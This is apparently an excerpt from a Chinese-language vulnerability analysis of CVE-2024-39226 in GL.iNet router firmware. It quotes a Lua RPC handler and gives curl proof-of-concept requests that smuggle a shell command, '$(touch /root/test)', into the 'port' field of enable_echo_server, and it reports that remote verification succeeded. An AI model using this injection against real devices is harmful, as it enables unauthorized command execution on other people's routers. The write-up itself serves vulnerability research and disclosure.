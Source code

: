 ```shell
curl -H 'glinet: 1' 127.0.0.1/rpc -d '{"method":"call", "params":["", "s2s", "enable_echo_server", {"port": "7 $(touch /root/test)"}]}'
```

```lua
local function glc_call(object, method, args)
    ngx.log(ngx.DEBUG, "call C: '", object, ".", method, "'")

    local res = ngx.location.capture("/cgi-bin/glc", {
        method = ngx.HTTP_POST,
        body = cjson.encode({
            object = object,
            method = method,
            args = args or {}
        })
    })
```

那么对照着规则构造一下 poc：

```shell
curl 192.168.2.2/cgi-bin/glc -d '{"object":"s2s", "method":"enable_echo_server", "args":{"port":"7 $(touch /root/test)"}}'
```

远程验证成功：

![image-20250224100103412](./assets/CVE-2024-39226命令注入/image-20250224100103412.png)
